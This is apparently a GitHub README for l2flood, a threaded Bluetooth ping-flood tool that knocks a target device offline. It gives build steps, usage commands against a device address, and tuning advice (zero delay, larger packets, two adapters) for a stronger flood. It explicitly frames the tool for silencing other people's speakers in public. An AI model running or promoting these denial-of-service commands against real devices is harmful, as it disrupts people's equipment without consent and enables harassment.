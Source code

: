 # l2flood

[l2ping][1] with threads.

Flood a given bluetooth device with ping requests in order to force it to
disconnect.

# INSTALL

Satisfy the [dependencies](#dependencies) first, and then:

```bash
git clone https://github.com/kovmir/l2flood
cd l2flood
make # Use `make serial` to build upstream l2ping.
sudo make install
```

# USAGE

Suppose there is a loud bluetooth speaker in public, and suppose
`94:3a:2c:e1:2b:07` is its address. You can shut it off like that:

```bash
l2flood 94:3a:2c:e1:2b:07 # Flood with as much threads as there are CPU cores.
l2flood -n 50 94:3a:2c:e1:2b:07 # Flood with 50 threads.
```

A weak speaker CPU will not be able to process that many ping requests, and
music decoding simultaneously; so it will disconnect.

Keep in mind:

* The default delay between packets has been changed to `0`.
* The default data packet size has been increased to `600`.
* [`l2ping` options][1] work.
* *Your bluetooth card is your bottleneck: Even if you have a multi-core
  multi-gigahertz CPU, it makes little to no sense to spawn as much as 1,000
  threads, because your bluetooth card is unlikely to be fast enough to process
  all the requests as quick as you submit them.*

# DEPENDENCIES

* [Bluez][3]
  * On Debian/Ubuntu/Kali `sudo apt install -y libbluetooth-dev`.

# SUPPORTED OPERATING SYSTEMS

* Linux

# FAQ

**Q: Does it work in [termux][2]?**

A: No, [Bluez][3] libraries are not available in termux.

**Q: Does it work on Steam Deck?**

A: Yes.

**Q: How to increase flood efficiency?**

A: Get a second bluetooth card, and flood using both of them.

```bash
BT_ADDR='00:00:00:00:00:00' # Set the target address.
l2flood -i hci0 $BT_ADDR
l2flood -i hci1 $BT_ADDR
```

**Q: How to fix `Can't create socket: Operation not permitted`?**

A: Re-run as `root` user.

[1]: https://linux.die.net/man/1/l2ping
[2]: https://github.com/termux/termux-app
[3]: https://wiki.archlinux.org/title/Bluetooth
